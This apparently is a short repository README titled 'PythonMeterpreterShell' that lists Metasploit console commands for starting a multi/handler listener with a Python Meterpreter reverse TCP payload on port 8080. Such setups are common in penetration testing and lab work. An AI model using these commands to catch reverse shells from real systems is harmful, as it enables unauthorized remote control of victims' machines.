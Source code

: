 # PythonMeterpreterShell

$ sudo msfconsole
* msf6 > use exploit/multi/handler
* set payload python/meterpreter/reverse_tcp
* set lhost eth0
* set lport 8080
* exploit -j 
